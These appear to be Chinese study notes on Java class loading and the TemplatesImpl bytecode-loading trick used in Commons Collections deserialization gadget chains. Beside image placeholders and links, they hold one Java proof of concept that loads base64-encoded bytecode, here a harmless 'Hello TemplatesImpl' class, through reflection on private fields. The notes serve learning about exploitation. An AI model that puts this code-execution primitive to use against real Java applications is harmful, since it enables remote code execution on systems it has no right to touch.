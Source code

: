 

## ClassLoader#defineClass

![image-20210711092618138](img/image-20210711092618138-16361706006101.png)

ClassLoader原理 http://blog.sina.com.cn/s/blog_6383597b0100fsiw.html

## 双亲委派机制

![image-20210612163321834](img/image-20210612163321834-16361707709554.png)

https://blog.csdn.net/weixin_34874025/article/details/86673232

## 在CC链中的利用



```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.misc.BASE64Decoder;
import java.lang.reflect.Field;
public class HelloTemplatesImpl {
    public static void main(String[] args) throws Exception {
// source: bytecodes/HelloTemplateImpl.java
        byte[] code =
                new BASE64Decoder().decodeBuffer("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA"+
                        "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP"+
                        "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0"+
                        "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm"+
                        "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y"+
                        "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw"+
                        "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp"+
                        "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb"+
                        "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB"+
                        "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj"+
                        "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z"+
                        "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry"+
                        "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n"+
                        "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA"+
                        "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA"+
                        "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA"+
                        "DwABABAAAAACABE=");
        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _tfactory.setAccessible(true);
        _bytecode.setAccessible(true);
        _name.set(obj,"reader-l");
        _bytecode.set(obj,new byte[][]{code});
        _tfactory.set(obj,new TransformerFactoryImpl());
        obj.newTransformer();
    }
}
```

![image-20210703155323626](img/image-20210703155323626.png)

在TemplatesImpl方法中的调用链:

![image-20210703161600361](img/image-20210703161600361-16361706096992.png)





